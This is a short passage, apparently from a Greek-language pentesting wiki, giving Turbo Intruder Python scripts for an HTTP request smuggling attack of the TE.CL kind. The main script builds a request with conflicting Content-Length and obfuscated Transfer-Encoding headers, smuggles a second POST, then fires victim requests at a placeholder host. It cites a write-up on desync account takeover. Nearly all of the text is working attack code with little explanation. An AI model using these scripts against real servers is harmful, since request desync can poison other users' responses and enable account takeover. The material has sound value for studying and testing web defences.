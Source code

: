 ```python
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```
### TE.CL

Από: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
## Εργαλεία
